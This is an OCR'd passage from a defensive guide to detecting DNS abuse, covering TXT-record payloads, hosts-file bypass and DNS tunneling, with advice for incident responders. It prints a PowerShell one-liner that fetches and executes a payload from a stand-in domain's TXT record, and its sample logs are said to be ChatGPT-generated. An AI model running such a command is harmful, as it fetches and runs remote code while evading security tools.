``` pkill -USR1 systemd-resolve ```
record of the currently used antivirus’ domain (as it's often queried
by the antivirus for updates) thus, threat actor got the info.
Preferred Action: You can analyze the DNS query logs to check if
there are DNS queries for so many antivirus domains in a certain
period of time.



>## 3.Payload in DNS TXT Record Detection

When threat actors try to use PowerShell commands such as IEX or,
Invoke-WebRequest then, EDR or security solutions block this. To
bypass this, they can host a DNS TXT record with malicious payload
in their C2 domain and then run the below command to execute the
payload (details):
```
powershell . (nslookup -q=txt http://some.owned.domain.com)[-1]
```
Preferred Action: You should manually analyze the DNS query logs to
find such queries for TXT records. For example, below is a sample
log for TXT records query that I generated using ChatGPT:
```
08-Jun-2023 14:30:47.000 queries: info: client 10.0.0.5#54321 (google.com): query: google.com IN TXT +
08-Jun-2023 14:30:47.000 queries: info: client 10.0.0.5#54321 (google.com): response: google.com IN TXT "facebookdomain-verification=abcdefghijk" TTL 1800
08-Jun-2023 10:15:23.000 queries: info: client 192.168.1.100#12345 (example.com): response: example.com IN TXT
"v=spf1 include:_spf.example.com ~all" TTL 3600
```


>## 4.DNS Log Bypass Detection


Threat actors may add their malicious domain and the IP address in
the hosts file (‘/etc/hosts’ in Linux) like below to temporarily bypass
the DNS and its logs:
65.181.121.56 malicious.com
Threat actors may even use ‘domain to IP’ services such as ip-api to
collect the IP address of their DGA or malicious domain rather than
querying the DNS server. So that, DNS can’t log their domain in the
query log.
Preferred Action: It’s really hard to detect such behavior if your
organization doesn’t have any DNS security solution such as
ThreatIDR. But, you can check for the existence of the DNS queries
for ‘domain to IP’ services in the log. Or, analyze the recent hosts file
modification during the incident response.



>## 5.DNS Tunneling Detection

Threat actors often encodes/encapsulates the data of different
protocols or, programs in DNS query. This technique is called DNS
tunneling. This technique sometimes includes an another hacking
method- DGA (Domain Generation Algorithm). This enables threat
actors to exfiltrate data using DNS protocol.
Preferred Action: The domain name in a DNS request can have up to
253 characters in its textual representation. So, threat actors will
require so many DNS requests to exfiltrate data. As a result, the DNS
traffic will increase, which is a good indicator of DNS tunneling
attack. Also an incident responder should analyze the data inside the
network packets by capturing the live network. This will help to
```